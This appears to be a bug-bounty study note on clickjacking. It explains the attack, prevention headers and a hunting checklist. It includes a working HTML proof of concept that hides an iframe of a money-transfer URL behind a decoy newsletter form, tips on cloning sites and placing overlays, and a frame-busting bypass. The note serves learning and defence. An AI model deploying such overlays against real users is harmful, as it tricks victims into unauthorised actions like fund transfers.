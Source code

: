 ### what && how
> Clickjacking, or user-interface redressing, is an attack that tricks users into clicking a malicious button that has been made to look legitimate.
>Attackers achieve this by using HTML page-overlay techniques to hide one web page within another using `<iframe>` tag, so if the page can’t be framed, this attack not succussed 

> rarely considered in scope for bug bounty, cuz this attack need lot of user interaction
### simple POC
> note `opacity`, `z-index` for `victim-site`, and `position`, `z-index` for decoy
```html
<html>
 <style>
 #victim-site {
	 width:500px;
	 height:500px;
	 opacity:0.00001; /*make it 0 in real poc*/
	 z-index:1; /*make it float in top*/
 } 
 #decoy { 
	 position:absolute; /* to make the site overlab */
	 width:500px; 
	 height:500px;  
	 z-index:-1; /*always in back*/
 }
 </style>
<div id="decoy">
	<h3> Welcome to my site! </h3>
	<h3> This is a cybersecurity newsletter that focuses on bug bounty news Please subscribe to receive new cybersecurity articles in your email!</h3>
	<form action="/subscribe" method="post">
		<label for="email">Email</lable>
		<input type="text" id="email" value="Please enter your email!">
		<input type="submit" value="Submit">
	</form>
 </div>
 <iframe id="victim-site"
 src="https://www.example.com/transfer_money?
 recipient=attacker_account_12345&amount=5000"
 width="500" height="500">
 </iframe>
</html>
```
![[Pasted image 20240123142644.png]]The Transfer Balance button lies directly on top of the Subscribe button. Victims think they’re subscribing to a newsletter, but they’re actually clicking the button to authorize a balance transfer.
### prevention
Two conditions must be met for a clickjacking vulnerability to happen.
1. the vulnerable page has to have **functionality that executes a state-changing action** on the user’s behalf: (changing the user’s account settings or personal data)
2. **the vulnerable page has to allow itself to be framed by an iframe on another site**
	- `X-Frame-Options` :
		if the HTTP response headers have `X-Frame-Options: DENY`then it can't be in iframe, 	   `X-Frame-Options: SAMEORIGIN` allows framing from pages of the same origin
	- CSP `Content-Security-Policy`:
		   `Content-Security-Policy: frame-ancestors 'none';` prevent any site from framing the page
		   `Content-Security-Policy: frame-ancestors 'self';` will allow the current site to frame the page:
	- `SameSite` cookies: When the `SameSite` flag on a cookie is set to `Strict` or `Lax`, that cookie won't be sent in requests made within a third-party iframe
> 	This means that any clickjacking attack that requires the victim to be authenticated, would not work, even if no HTTP response header restricts framing, because the victim won’t be authenticated in the clickjacked request.

### hut for it 
- [ ] collect pages contains state-changing actions. 
- [ ] check that the action can be achieved via clicks alone. or a URL
	> Attacks that require users to explicitly type in values are possible, but generally not feasible because they require so much social engineering. think about [[CSRF]]
- [ ] go throw collected functions and check for `X-Frame-Options`, `Content-Security-Policy: frame-ancestors`, `SameSite` flag in HTTP response headers, **==if found no vulns there==**, if missing then start POC
- [ ] Craft an HTML page that frames the target page
	```html
	<HTML>
	 <head><title>Clickjack test page</title></head>
	 <body>
		 <p>Web page is vulnerable to clickjacking if the iframe is populated with the target page!</p>
		 <iframe src="URL_OF_TARGET_PAGE" width="500" height="500"></iframe>
	 </body>
	</html>
	```
- [ ] write POC using above POC, CSS skill and test it your self
- [ ] use [SET](https://github.com/trustedsec/social-engineer-toolkit/) to clone a website
- [ ] place your `iframe` in place that frequently clicked such `Accept That This Site Uses Cookies! pop-up.` consider the larger impact of the vulnerability.
- [ ] host it on http://pipdream.com/ or use Burp's [Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit) tool
### Bypassing Protections
-  `frame-busting` uses JavaScript code to check if the page is in an iframe
	```js
	if (top.location == self.location){ 
	// Allow framing. 
	} else{ 
	// Disallow framing. 
	}
	```
to bypass that using `double iframe trick`: 
- search for a location on the victim site that allows you to embed custom iframes. such share links on profile which included via `iframe` or embed videos, audio, images
- This trick works by framing your malicious page within a page in the victim’s domain, This way, both `top.location` and `self.location` point to victim.com.
labs: https://portswigger.net/web-security/clickjacking